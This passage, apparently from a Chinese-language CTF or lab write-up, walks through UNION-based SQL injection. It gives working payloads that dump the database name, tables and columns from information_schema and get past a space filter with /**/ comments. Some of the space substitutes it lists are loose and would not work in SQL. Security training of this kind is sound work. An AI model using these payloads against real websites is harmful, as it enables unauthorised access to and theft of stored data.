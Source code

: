 ![image-20240121020315317](E:\学习资料\网安\笔记\笔记截图\image-20240121020315317.png)

查询该字段名的值

```
-1 union select 1,group_concat(gdtnnnhjrs) from xlnrydecar
```

![image-20240121020509829](E:\学习资料\网安\笔记\笔记截图\image-20240121020509829.png)

**过滤空格**

意思很明显就是不能出现空格，在后台的程序里面设置的有过滤器，出现空格则会报错。这里可以用特殊编码或者特殊符号来代替空格。

加号 +： 在某些情况下，特别是在URL编码中，空格可以用加号替代。

百分号编码（Percent Encoding）： 在URL中，空格通常被 %20 代替。例如，“hello world”可以写成“hello%20world”。

下划线 _： 在文件命名或URL中，下划线也常被用来代替空格。

连字符 -： 连字符可以用于连接单词，代替空格，特别在形成URL时。

HTML实体： 在HTML文档中，可以使用 &nbsp; 来表示空格，这是空格的HTML实体。

Unicode非断空格： Unicode中有一个特殊的空格字符，被称为非断空格（Non-breaking Space），可以用 U+00A0 表示。

我这里用的是/**/来代替的空格

查找注入点

```
-1/**/union/**/select/**/1,2
```

![image-20240121022232718](E:\学习资料\网安\笔记\笔记截图\image-20240121022232718.png)

爆库，查询到数据库名为sqli

```
-1/**/union/**/select/**/database(),1
```

![image-20240121022330249](E:\学习资料\网安\笔记\笔记截图\image-20240121022330249.png)

爆表，得到两个表名hjfkqvtzhc,news

```
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
```

![image-20240121022611513](E:\学习资料\网安\笔记\笔记截图\image-20240121022611513.png)

爆出指定表中的字段名rcdoflzouj

```
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='hjfkqvtzhc'
```

![image-20240121022802843](E:\学习资料\网安\笔记\笔记截图\image-20240121022802843.png)
